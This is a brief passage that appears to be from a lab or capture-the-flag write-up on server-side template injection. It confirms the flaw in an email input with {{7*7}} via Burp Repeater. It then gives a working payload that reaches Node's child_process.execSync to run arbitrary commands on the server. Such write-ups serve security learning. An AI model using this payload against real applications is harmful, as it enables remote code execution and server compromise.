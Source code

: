 We play around with the email input here

We try SSTI by inputting `{{7*7}}` for email

Note: need to do this through repeater in burp

Response:
```
{"response":"You will receive updates on the following email address: 49."}
```

This confirms we can use SSTI

---

SSTI Payload:

```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('<RCE COMMAND>')\")()}}
```